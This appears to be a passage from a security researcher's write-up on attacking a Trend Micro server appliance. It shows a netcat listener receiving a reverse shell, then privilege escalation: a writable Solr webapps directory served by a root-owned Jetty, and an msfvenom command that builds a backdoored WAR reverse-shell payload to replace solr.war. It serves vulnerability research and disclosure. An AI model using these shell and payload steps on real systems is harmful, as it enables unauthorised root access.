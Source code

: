 Let's run netcat and wait for the shell to drop !

<pre style="background-color:black;color:white;font-family:'monospace';">
$ nc -lv 4444
bash: no job control in this shell
bash-3.2$ id
uid=501(webserv) gid=501(webserv) groups=101(icrc),501(webserv)
bash-3.2$ whoami
webserv
bash-3.2$ pwd
/var/www/AdminUI/php
</pre>

#### Privilege Escalation

It got interesting when I discovered that TMSPS servers are running an Apache Solr server to - presumably - communicate with OfficeScan clients.
Solr runs on Jetty and the webserv user has write access to the webapps directory. However, auto-deploy of war files is not enabled by default.

<pre style="background-color:black;color:white;font-family:'monospace';">
bash-3.2$ cd /var/tmcss/solr/webapps
bash-3.2$ ls -alh
total 3.9M
drwxr-xr-x 2 webserv webserv 4.0K Apr 29 21:19 .
drwxr-xr-x 9 webserv webserv 4.0K Apr 29 20:03 ..
-rw-r--r-- 1 webserv webserv 3.9M Nov  6  2009 solr.war
</pre>

Furthermore, I found out that this server is running - you guessed it - as root.

<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
bash-3.2$ ps aux
--snip--
root      2265  0.3  6.8 612340 69804 ?        Sl   22:03   0:03 /usr/java/default/bin/java -Dsolr.solr.home=/var/tmcss/solr/solr -Djetty.port=8983 -Djetty.logs=/var/tmcss/solr/logs -Djetty.home=/var/tmcss/solr -Djava.io.tmpdir=/tmp -jar /var/tmcss/solr/start.jar /var/tmcss/solr/etc/jetty-logging.xml /var/tmcss/solr/etc/jetty.xml
</pre>

From there, and making the assumptions that we already have credentials, we could drop a backdoored .war file there and restart the logging service from the custom CLI in order to get a shell with root privileges.


<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > solr.war
Payload size: 1099 bytes
</pre>

<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';"
>
Last login: Wed Jul  6 22:16:01 2016 from 10.0.2.2
